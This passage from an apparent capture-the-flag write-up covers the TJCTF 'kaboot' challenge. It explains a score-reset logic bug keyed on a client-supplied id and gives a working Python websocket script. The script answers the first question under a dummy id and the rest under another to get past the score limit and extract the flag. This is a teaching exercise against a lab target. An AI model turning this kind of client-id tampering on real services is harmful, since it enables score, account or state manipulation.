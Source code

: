 As you can see, the score reset only happens during **the first question**!

If we look closely at the `edit_score()` function call, we can see that **the client's provided `id`** is parsed into that function.

Ah ha! What if we **first reset a dummy ID's score**, and **then continue with another ID**?

## Exploitation

### Reset Score Logic Bug

Armed with above information, we can abuse the reset score logic bug to gain more than `9999` score!

**To do so, I'll write a Python solve script:**
```python
import websockets
import asyncio
import json
import base64
import time
import re

async def exploit(url):
    QUESTION_LENGTH = 10
    LOCAL_FLAG_FORMAT = r'(flag\{[ -z|~]+\})'
    FLAG_FORMAT = r'(tjctf\{[ -z|~]+\})'
    try:
        async with websockets.connect(url) as websocket:
            message = await websocket.recv() # room's title name message

            for i in range(QUESTION_LENGTH):
                message = await websocket.recv() # question and answer information message
                question = json.loads(base64.b64decode(message).decode())
                answer = question['answer']

                id = '1' if i == 0 else '2'
                sendTime = time.time()
                encodedMessage = base64.b64encode('{{"id":"{0}","answer":{1},"send_time":{2}}}'.format(id, answer, sendTime).encode())
                await websocket.send(encodedMessage)

            message = await websocket.recv() # final answer's information
            finalMessage = json.loads(base64.b64decode(message).decode())
            if 'omg congrats' not in finalMessage['message']:
                print('[-] Current score is <= 10000')
            else:
                if (flagMatch := re.search(FLAG_FORMAT, finalMessage['message'])) or (flagMatch := re.search(LOCAL_FLAG_FORMAT, finalMessage['message'])):
                    flag = flagMatch.group(0)
                    print(f'[+] Current score is >= 10000. Here\'s the flag: {flag}')
    except websockets.exceptions.ConnectionClosedError:
        print('[*] Connection closed')

if __name__ == "__main__":
    # url = "ws://localhost:5000/room/literally_anything" # local testing
    url = "wss://kaboot-0af29d2ec5fe4b03.tjc.tf/room/literally_anything" # remote instance

    ATTEMPT = 2 # run twice to gain score >= 10000
    for i in range(ATTEMPT):
        print(f'[*] Attempt {i + 1}...')
        asyncio.run(exploit(url))
```
